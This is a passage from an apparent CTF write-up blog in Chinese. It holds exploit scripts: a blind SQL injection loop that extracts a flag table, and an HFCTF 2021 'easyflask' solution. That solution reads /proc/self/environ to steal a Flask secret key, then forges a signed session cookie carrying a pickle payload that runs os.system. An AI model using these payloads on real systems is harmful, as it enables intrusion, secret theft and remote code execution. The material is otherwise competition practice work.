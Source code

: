 ```python
            'username': "test\" or (ascii(substr((select group_concat(secret) from flag_tbl ),{0},1))>{1}) #".format(i,mid),'password': 'test'}
        r = requests.post(url=url,params=payload_flag,files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "123456789"},
                  cookies={"PHPSESSID": "test1"})

        print(payload_flag)
        if '<meta http-equiv="refresh" content="0; url=?p=home" />' in r.text:
            low = mid +1
        else:
            high = mid
        mid = (low + high) // 2
    if(mid==32 or mid == 132):
        break
    flag +=chr(mid)
    print(flag)

print(flag)
```

## 0x05 [HFCTF 2021 Final]easyflask

`secret_key=glzjin22948575858jfjfjufirijidjitg3uiiuuh`

不懂为什么我的调不通，eki师傅的一把就嗦了。呜呜，我直接500，惨兮兮。 摸一下eki

```python
import base64
import pickle
from flask.sessions import SecureCookieSessionInterface
import re
import pickletools
import requests

url = "http://bb1ec514-a843-47d0-ab24-242e0f987291.node4.buuoj.cn:81/"

def get_secret_key():
    target = url + "/file?file=/proc/self/environ"
    r = requests.get(target)
    #print(r.text)
    key = re.findall('key=(.*?)OLDPWD',r.text)
    return str(key[0])
secret_key = get_secret_key()
#secret_key = "glzjin22948575858jfjfjufirijidjitg3uiiuuh"
print(secret_key)
class FakeApp:
    secret_key = secret_key
class User(object):
    def __reduce__(self):
        import os
        cmd = "cat /flag > /tmp/dem"
        return (os.system,(cmd,))
exp = {
    "b":base64.b64encode(pickle.dumps(User()))
}
fake_app = FakeApp()
session_interface = SecureCookieSessionInterface()
serializer = session_interface.get_signing_serializer(fake_app)
cookie = serializer.dumps(
    {'u':exp}
)
print(cookie)
headers = {
    "Accept":"*/*",
```